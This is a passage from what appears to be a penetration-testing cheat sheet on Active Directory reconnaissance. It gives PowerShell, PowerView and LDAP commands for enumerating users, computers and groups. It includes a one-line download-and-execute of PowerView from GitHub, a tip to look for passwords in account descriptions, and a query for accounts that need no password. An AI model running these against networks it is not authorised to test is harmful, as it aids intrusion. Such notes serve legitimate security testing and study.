					$results=foreach($user in $users) {
						 $SamAccountName = $user.Properties['SamAccountName']
						 "$SamAccountName"
					}
					$results | Out-File domain_users.txt
		* <details><summary>PowerView (Click to expand)</summary><p>

				Get-NetUser -Credential $Cred | Format-Table name, samaccountname, userprincipalname, description
		* <details><summary>Powerview (Click to expand)</summary><p>

				Get-DomainUser -LDAPFilter "(!userAccountControl:1.2.840.113556.1.4.803:=2)" -Properties distinguishedname
				Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
* .NET
* PowerShell
	* <details><summary>Active Directory Module (Click to expand)</summary><p>
		* .

				`Get-ADUser -Filter * -Properties *`
		* .

				`Get-ADUser -Identity student1 -Properties *`
		* .

				`Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select name,Description`
			* Many times, you may find passwords in the description fields, inspect them closely
		* .

				`Get-ADComputer -Filter * | select Name`
		* .

				`Get-ADComputer -Filter 'OperatingSystem -like "*Server 2016*"' -Properties OperatingSystem | select Name,OperatingSystem`
		* .

				`Get-ADComputer -Filter * -Properties DNSHostName | %{Test-Connection -Count 1 -ComputerName $_.DNSHostName}`
			* utilizes ICMP packets, so results may not be accurate depending on network security in place
		* .

				`Get-ADComputer -Filter * -Properties *`
	* <details><summary>PowerView (Powersploit) (Click to expand)</summary><p>
		* Harmj0y Guide
			* [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
		* Download

				iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
		* Function Naming Schema
			* Verbs
					* `Get` - retrieve full raw data sets
					* `Find` - ‘find’ specific data entries in a data set
					* `Add` - add a new object to a destination
					* `Set` - modify a given object
					* `Invoke` - lazy catch-all
			* Nouns
				* `Verb-Domain*` - indicates that LDAP/.NET querying methods are being executed
				* `Verb-WMI*` - indicates that WMI is being used under the hood to execute enumeration
				* `Verb-Net*` - indicates that Win32 API access is being used under the hood
		* Use an alterate credential for any PowerView function

				$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
				$Cred = New-Object System.Management.Automation.PSCredential('<domain>\jar-jar.binks', $SecPassword)
			* Validate

					Get-NetDomain -Credential $Cred #test
		* List all groups of a specific user

				Get-DomainGroup -MemberIdentity darth.vader -Credential $Cred | Format-Table cn
* Enumerate all groups a user is a part of
	* <details><summary>Powershell (Click to expand)</summary><p>
		* List all members of a specific local group

			Get-NetLocalGroupMember -ComputerName workstation04 -GroupName Administratoren –Credential $Cred | Format-Table membername,isgroup,isdomain

# LDAP Queries

<details><summary>References (Click to expand)</summary><p>



</p></details>

<details><summary>LDAP Queries (Click to expand)</summary><p>

* List all users that do no request a password

		([adsisearcher]'(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))').FindAll()



</p></details>